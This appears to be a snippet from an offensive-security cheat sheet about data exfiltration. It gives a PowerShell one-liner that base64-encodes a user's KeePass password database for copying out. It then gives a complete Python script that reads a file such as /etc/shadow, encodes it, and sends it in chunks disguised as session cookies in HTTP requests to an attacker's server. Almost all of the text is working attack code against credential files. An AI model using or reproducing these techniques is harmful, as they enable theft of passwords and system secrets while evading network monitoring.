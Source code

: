 

### Sometimes the easiest solution is to base64 encode and copy paste
`[convert]::ToBase64String((Get-Content -path "\Users\johanna\Documents\Logins.kdbx" -Encoding byte))`



## Covert Data Exfiltration

Exfiltrates file as cookies in a http web request

```
import base64
import requests

# Path to the file to exfiltrate (e.g., /etc/shadow)
file_path = "shadow"

# Attacker's URL (replace with your malicious server)
attacker_url = "http://10.0.0.10:80/"

# Read and encode the file in Base64
with open(file_path, "rb") as f:
    file_data = f.read()
    encoded_data = base64.b64encode(file_data).decode()

# Function to split data into chunks (suitable for cookie size)
def chunk_data(data, chunk_size=25):
    return [data[i:i + chunk_size] for i in range(0, len(data), chunk_size)]

# Split the Base64 encoded data into smaller chunks for the Cookie header
data_chunks = chunk_data(encoded_data)

# Send each chunk as part of the Cookie header in a fake request
for i, chunk in enumerate(data_chunks):
    # Set the cookie with the chunked data
    cookies = {
        f'Session': chunk  # Cookies should be a dictionary
    }

    # Send the fake HTTP GET request with the data in the Cookie header
    try:
        response = requests.get(attacker_url, cookies=cookies)
        if response.status_code == 200:
            print(f"Successfully sent chunk {i+1}/{len(data_chunks)}")
        else:
            print(f"Failed to send chunk {i+1}: Status Code {response.status_code}")
    except Exception as e:
        print(f"Error sending chunk {i+1}: {e}")

```

